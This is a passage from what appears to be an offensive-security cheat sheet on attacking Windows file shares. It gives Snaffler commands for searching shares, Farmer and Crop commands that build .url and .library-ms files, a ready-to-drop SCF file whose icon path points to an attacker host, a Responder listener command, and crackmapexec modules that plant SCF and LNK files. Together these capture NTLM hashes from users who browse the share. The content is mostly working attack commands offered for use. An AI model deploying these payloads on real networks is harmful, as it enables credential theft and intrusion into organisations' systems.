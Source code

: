     # Snaffle specific computers
    ./Snaffler.exe -n computer1,computer2 -s
    ​
    # Snaffle a specific directory
    ./Snaffler.exe -i C:\ -s
    ```
    

## SCF and URL file attack against writeable share

Theses attacks can be automated with [Farmer.exe](https://github.com/mdsecactivebreach/Farmer) and [Crop.exe](https://github.com/mdsecactivebreach/Farmer/tree/main/crop)

```ps1
# Farmer to receive auth
farmer.exe <port> [seconds] [output]
farmer.exe 8888 0 c:\windows\temp\test.tmp # undefinitely
farmer.exe 8888 60 # one minute

# Crop can be used to create various file types that will trigger SMB/WebDAV connections for poisoning file shares during hash collection attacks
crop.exe <output folder> <output filename> <WebDAV server> <LNK value> [options]
Crop.exe \\\\fileserver\\common mdsec.url \\\\workstation@8888\\mdsec.ico
Crop.exe \\\\fileserver\\common mdsec.library-ms \\\\workstation@8888\\mdsec
```

### SCF Files

Drop the following `@something.scf` file inside a share and start listening with Responder : `responder -wrf --lm -v -I eth0`

```powershell
[Shell]
Command=2
IconFile=\\10.10.10.10\Share\test.ico
[Taskbar]
Command=ToggleDesktop
```

Using [`crackmapexec`](https://github.com/byt3bl33d3r/CrackMapExec/blob/master/cme/modules/slinky.py):

```ps1
crackmapexec smb 10.10.10.10 -u username -p password -M scuffy -o NAME=WORK SERVER=IP_RESPONDER #scf
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER #lnk
crackmapexec smb 10.10.10.10 -u username -p password -M slinky -o NAME=WORK SERVER=IP_RESPONDER CLEANUP
```

### URL Files
